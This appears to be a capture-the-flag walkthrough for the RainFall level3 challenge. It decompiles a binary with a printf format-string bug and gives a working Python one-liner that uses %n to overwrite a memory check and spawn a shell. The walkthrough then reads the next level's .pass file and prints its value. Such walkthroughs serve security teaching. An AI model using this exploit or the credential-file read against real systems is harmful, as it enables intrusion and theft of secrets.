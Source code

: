 decompiling the binary in level3 home folder we get:

/--------------------------------------------------------/
    int32_t main(int32_t argc, char** argv, char** envp)

        08048526  return v()
/--------------------------------------------------------/
    uint32_t v()

        080484c7  void var_20c
        080484c7  fgets(&var_20c, 512, *stdin)
        080484d5  printf(&var_20c)
        080484da  uint32_t eax_1 = *m
        080484df  if (eax_1 == 64)                                              ## WTF is *m
        08048507      fwrite(0x8048600, 1, 0xc, *stdout)  {"Wait what?!\n"}
        08048513      eax_1 = system(0x804860d)  {"/bin/sh"}                    ## if we get eax_1 to verify the condition, a shell will run on lvl4
        08048519  return eax_1
/--------------------------------------------------------/

gdb:

    disas v
            0x080484a4 <+0>:     push   %ebp
            0x080484a5 <+1>:     mov    %esp,%ebp
            0x080484a7 <+3>:     sub    $0x218,%esp
            0x080484ad <+9>:     mov    0x8049860,%eax
            0x080484b2 <+14>:    mov    %eax,0x8(%esp)
            0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
            0x080484be <+26>:    lea    -0x208(%ebp),%eax
            0x080484c4 <+32>:    mov    %eax,(%esp)
            0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
            0x080484cc <+40>:    lea    -0x208(%ebp),%eax
            0x080484d2 <+46>:    mov    %eax,(%esp)
            0x080484d5 <+49>:    call   0x8048390 <printf@plt>
            0x080484da <+54>:    mov    0x804988c,%eax              <-  that misterious "m" is just a direction in memory. The program is obviously inciting us to modify this exact address to 64
            0x080484df <+59>:    cmp    $0x40,%eax
            0x080484e2 <+62>:    jne    0x8048518 <v+116>
            0x080484e4 <+64>:    mov    0x8049880,%eax
            0x080484e9 <+69>:    mov    %eax,%edx
            0x080484eb <+71>:    mov    $0x8048600,%eax
            0x080484f0 <+76>:    mov    %edx,0xc(%esp)
            0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
            0x080484fc <+88>:    movl   $0x1,0x4(%esp)
            0x08048504 <+96>:    mov    %eax,(%esp)
            0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
            0x0804850c <+104>:   movl   $0x804860d,(%esp)
            0x08048513 <+111>:   call   0x80483c0 <system@plt>

/--------------------------------------------------------/

There is a call on printf of the user input, which allows to exploit this vulnerability:
https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf
(explained in the part "writing an integer to nearly any location...")


We can see the stack just by printing it:
    level3@RainFall:~$ ./level3 
    "%08x %08x %08x %08x %08x"
    "00000200 b7fd1ac0 b7ff37d0 38302522 30252078"

python -c  'print "AAAA" + "%p "*10 ' | ./level3
$    AAAA0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
                                        This
                                        the 4th argument shows 'A' (0x414141) so we should write to this address, $4.

Plus, we can directly write on specific addresses of the stack by using the %n formatter.
We have to tell printf 
We want to write '64' value on 0x804988c address, so the syntax would be:

python -c 'print "\x8c\x98\x04\x08" + "A"*(64 - 4) + "%4$n" ' > /tmp/expl; cat /tmp/expl - | ./level3
                    |                  |                |
                    |                  |                |Write n bytes printed to the 4th argument (the address to write)
                    |                  |
                    |                  |
                    |                  |Padding to reach 64 bytes printed
                    |
                    |Address to write

/--------------------------------------------------------/

    level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "A"*(64 - 4) + "%4$n" ' > /tmp/expl; cat /tmp/expl - | ./level3
    �AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Wait what?!
    cat /home/user/level4/.pass
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

Bingo :D